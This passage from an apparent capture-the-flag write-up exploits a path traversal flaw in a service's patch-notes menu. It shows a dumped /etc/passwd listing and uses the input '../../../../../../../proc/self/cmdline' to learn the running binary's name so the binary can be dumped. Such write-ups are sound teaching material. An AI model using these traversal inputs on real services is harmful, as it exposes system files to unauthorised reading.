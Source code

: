 ```console
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
user:x:1337:1337::/home/user:
```

Awesome! So the vulnerability wasn't properly patched and we can read files on the system. Unfortunately for us, we're kind of blind here as we don't know where the other files on the system might be, or what they might be called.

But, we have a secret weapon! Since we're connecting to a running service and can read files, we can try to read the [proc](http://man7.org/linux/man-pages/man5/proc.5.html) filesystem which provides an interface to kernel data structures.  It is commonly mounted at `/proc` and can actually reveal a lot about the current process that's running.

If we look into the `proc` manual pages, we can find the following in the "__files and directories__" portion.

> /proc/[pid]/cmdline
> 
> This read-only file holds the complete command line for the process, unless the process is a zombie.  In the latter case, there is nothing in this file: that is, a read on this file will return 0 characters.  The command-line arguments appear in this file as a set of strings separated by null bytes ('\0'), with a further null byte after the last string.

By reading this file, we should be able to see what the name of the executable is and should also see the location that it's being run from. If we find that out, we can then use the path traversal vulnerability to read the binary and dump it's contents to our local machine, which can then be reverse engineered.

Also note that we need to know the [pid](https://en.wikipedia.org/wiki/Process_identifier) of the service. Thankfully for us, instead of using a `pid` we can just enter [self](https://unix.stackexchange.com/questions/333225/which-process-is-proc-self-for) which should provide us the currently running binary's `pid` without us having to guess.

```console
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../../../../proc/self/cmdline
./main
```
